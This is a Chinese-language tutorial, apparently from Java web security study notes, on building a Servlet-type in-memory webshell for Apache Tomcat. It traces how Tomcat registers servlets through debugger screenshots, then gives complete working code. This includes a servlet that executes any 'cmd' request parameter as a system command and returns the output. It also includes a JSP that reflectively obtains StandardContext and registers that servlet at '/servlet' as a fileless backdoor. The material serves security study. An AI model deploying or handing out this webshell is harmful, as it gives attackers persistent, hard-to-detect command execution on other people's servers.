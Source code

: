 # Tomcat内存马之Servlet

## 前言

关于 Servlet 的知识，同样在前面 [Servlet](../../01-JavaWeb基础/0-Servlet/Servlet.md) 章节已经学习过，这里不再赘述，直接进入分析环节。

## Servlet流程分析

先编写一个 Servlet 实现类
```java
package com.servlet.study;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;

/**
 * Created by dotast on 2022/11/1 11:21
 */
@WebServlet(urlPatterns = "/*")
public class ServletTest extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String cmd = req.getParameter("cmd");
        try{
            InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
            ByteArrayOutputStream bao = new ByteArrayOutputStream();
            byte[] bytes = new byte[1024];
            int a = -1;
            while((a = inputStream.read(bytes))!=-1){
                bao.write(bytes, 0, a);
            }
            resp.getWriter().write(new String(bao.toByteArray()));

        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

访问带上参数执行命令
![image-20221101114404454](images/image-20221101114404454.png)

在前面的学习中，我们知道 Servlet 是在`StandardContext#startInternal()`方法里的`loadOnStartup()`进行调用，在这里打上断点
![image-20221102112537194](images/image-20221102112537194.png)

跟进`findChildren()`方法
![image-20221102112635004](images/image-20221102112635004.png)

此时的`children`属性已经存储了我们的 Servlet 实现类`com.servlet.study.ServletTest`，接下来需要寻找在哪里开始添加的以及如何添加。

返回`StandardContext#startInternal()`方法从前面开始看，其中`fireLifecycleEvent()`方法的注释是有关于生命周期的，我们将断点打在该方法上进行调试
![image-20221103111449771](images/image-20221103111449771.png)

跟进该方法
![image-20221107001456763](images/image-20221107001456763.png)

继续跟进`listener.lifecycleEvent()`方法
![image-20221103111626107](images/image-20221103111626107.png)

继续跟进`configureStart()`方法
![image-20221103111647954](images/image-20221103111647954.png)

调用了`webConfig()`方法，继续跟进
![image-20221107001703460](images/image-20221107001703460.png)

通过`createWebXml()`方法开始创建 WebXml 对象，此时`servletMappings`为空，继续往下走
![image-20221107001816881](images/image-20221107001816881.png)

这里跟进`processClasses()`方法
![image-20221107002001998](images/image-20221107002001998.png)

这里调用`context.getResources().listResources()`方法获取`/WEB-INF/classes`路径下的内容
![image-20221107002115992](images/image-20221107002115992.png)

其中在`/WEB-INF/classes/com/`路径下获取到`ServletTest.class`文件并添加到了`resource`
![image-20221107002325742](images/image-20221107002325742.png)

此时，`ServletTest`也被添加到了`webXml`对象中的`servletMappings`中
![image-20221107002446679](images/image-20221107002446679.png)

接着回到`ContextConfig#webConfig()`方法中，跟进`configureContext()`方法
![image-20221107095955380](images/image-20221107095955380.png)

在`configureContext()`方法中调到和`servlet`相关的代码
![image-20221107100457312](images/image-20221107100457312.png)

可以看到，通过`StandardContext.createWrapper()`方法创建了一个`wrapper`即`StandardWrapper`对象，同时为`wrapper`设置`LoadOnStartup`属性值
![image-20221107100659954](images/image-20221107100659954.png)

继续往下，分别为`wrapper`设置了`name`和`servletClass`属性的值，继续往下走
![image-20221107105938750](images/image-20221107105938750.png)

跟进`addChild()`方法
![image-20221107110138127](images/image-20221107110138127.png)

通过`context.addChild()`方法将`wrapper`添加到`ContainerBase`的`children`属性中，代码继续往下走
![image-20221107110331923](images/image-20221107110331923.png)

这里跟进`addServletMappingDecoded()`方法
![image-20221107110750212](images/image-20221107110750212.png)

最后将`ServletTest`类的路径映射添加到`wrapper`对象中。

弄清楚添加`ServletTest`的流程后，我们回到一开始的`loadOnStartup()`方法并跟进代码
![image-20221107111232641](images/image-20221107111232641.png)

这里判断`wrapper`对象的`LoadOnStartup`属性值，默认为 -1，
![image-20221107111350280](images/image-20221107111350280.png)

只有`LoadOnStartup`属性值大于 0 的时候，被`list.add()`方法添加到`list`中，最后才会被`wrapper.load()`方法加载到内存中进行调用。

这里需要了解一下`LoadOnStartup`在 Servlet 配置的含义：

> 标记容器是否在启动的时候就加载这个 servlet。 当值为 0 或者大于 0 时，表示容器在应用启动时就加载这个 servlet； 当是一个负数时或者没有指定时，则指示容器在该 servlet 被选择时才加载。 正数的值越小，启动该 servlet 的优先级越高。对应 Tomcat Servlet 的懒加载机制。

因此`LoadOnStartup`属性设置与不设置并不影响`Servlet`的加载，当然为了追求优先级一般都会设置一下，追求更完美不是。

整个`Servlet`的流程分析到这里算是结束了，可以总结完成动态注册`Servlet`的流程如下：

1. 编写恶意的`Servlet`类；
2. 获取`StandardContext`对象；
3. 创建`StandardWrapper`对象；
4. 设置`StandardWrapper`属性值`LoadOnStartup`属性值大于 0；
5. 设置`StandardWrapper`属性值`ServletName`；
6. 设置`ServletName`属性值`ServletClass`；
7. 将`StandardWrapper`对象添加到`ContainerBase`类的`children`属性中；
8. 通过`StandardContext.addServletMappingDecoded()`方法添加`Servlet`类的路径映射

开始编写 Servlet 型内存马
```jsp
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="org.apache.catalina.core.StandardWrapper" %><%--
  Created by dotast on 2022/11/7 17:02
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%!
    class ServletTest extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            try{
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes))!=-1){
                    bao.write(bytes, 0, a);
                }
                resp.getWriter().write(new String(bao.toByteArray()));

            }catch (Exception e){
                e.printStackTrace();
            }
        }
    }
%>

<%
    // 获取StandardContext
    Field field = request.getClass().getDeclaredField("request");
    field.setAccessible(true);
    Request req = (Request) field.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
    // 创建StandardWrapper对象，设置属性
    ServletTest servletTest = new ServletTest();
    StandardWrapper wrapper = new StandardWrapper();
    wrapper.setLoadOnStartup(1);
    wrapper.setName(servletTest.getClass().getSimpleName());
    wrapper.setServlet(servletTest);
    wrapper.setServletClass(servletTest.getClass().getName());
    // 将StandardWrapper对象添加到ContainerBase类的children属性中
    standardContext.addChild(wrapper);
    // 通过StandardContext.addServletMappingDecoded()方法添加Servlet类的路径映射
    standardContext.addServletMappingDecoded("/servlet",servletTest.getClass().getSimpleName());

%>
```

访问上传的内存马文件路径使其执行代码，注册内存马
![image-20221107172042764](images/image-20221107172042764.png)

接着访问设置的路由`/servlet`成功执行命令
![image-20221107172132115](images/image-20221107172132115.png)
